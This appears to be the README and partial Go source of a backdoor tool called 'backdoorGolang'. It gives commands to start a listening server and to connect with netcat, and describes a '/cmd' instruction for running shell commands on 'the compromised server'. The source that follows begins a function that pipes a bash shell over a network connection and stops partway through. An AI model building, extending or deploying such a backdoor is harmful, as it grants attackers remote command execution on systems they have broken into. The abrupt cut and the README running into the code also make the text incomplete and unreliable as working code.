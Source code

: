 ## Server-mode

```bash
./bin/backdoorGolang -h localhost -p 1234 -l
```

Notice : Server is multi-user capable (one server for X client)

## Client-mode

/!\ Not implemented yet, use netcat meanwhile !

```bash
netcat localhost 1234
```

### Instructions

Each message submit by client is sent to all backdoor's clients like a chat. 
However, an alone chat's feature is useless, there are a set of instructions allowed by all clients which have different behavior for taking advantage of the compromised server.

#### Quit Instruction

This instruction permit to logout the current user

```bash
/quit
/exit
```
Example :
```bash
echo "/quit"|netcat localhost 1234
```

#### Command Instruction

This instruction permit to execute shell command from server. (OS supported : Linux, Windows)

```bash
/cmd <shell-command>
```
Example :
```bash
echo "/cmd ls -l"|netcat localhost 1234




package main

import (
    "fmt"
    "net"
    "os/exec"
    "os"
    //"io"
)

//executes a bash shell and pipes in/out/err over the connection
func createShell(connection net.Conn) {
    var message string = "successful connection from " + connection.LocalAddr().String()
    _, err := connection.Write([]byte(message + "\n"))
    if err != nil {
        fmt.Println("An error occurred trying to write to the outbound connection:", err)
        os.Exit(2)
    }

```